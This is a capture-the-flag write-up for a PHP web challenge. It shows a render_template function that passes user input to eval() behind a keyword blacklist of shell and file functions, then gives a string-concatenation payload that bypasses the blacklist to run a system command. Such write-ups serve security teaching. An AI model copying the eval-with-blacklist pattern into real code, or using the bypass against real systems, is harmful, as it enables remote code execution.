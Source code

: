 # Solution to UserPortal Challenge

**Category**: Web Exploitation  
**Flag**: `VSL{12e844403b1fb9c5b6705d8dd8823e4a}`

## Description

The **UserPortal** challenge presents a web application feature that allows users to render templates. Upon inspecting the source code, it becomes evident that the application uses the `eval()` function within the `render_template` method to process user-supplied templates. The primary objective is to achieve Remote Code Execution (RCE) despite the presence of a blacklist intended to block dangerous PHP functions.

## Source Code Analysis

The critical portion of the code resides in `src/includes/functions.php` within the `render_template` function:

```php
public static function render_template($template, $variables = [])
{
    $blacklist = [
        'system',
        'exec',
        'shell_exec',
        'passthru',
        'eval',
        'phpinfo',
        'assert',
        'create_function',
        'include',
        'require',
        'fopen',
        'fwrite',
        'file_put_contents',
        'file_get_contents',
    ];
    foreach ($blacklist as $badword) {
        if (stripos($template, $badword) !== false) {
            return "Error: Invalid input detected.";
        }
    }
    extract($variables);
    try {
        eval ("\$output = \"$template\";");
        return $output;
    } catch (ParseError $e) {
        return "Syntax Error: " . $e->getMessage();
    }
}
```
**Payload:** ```$s = 'sy' . 'stem'; $s('whoami'); //```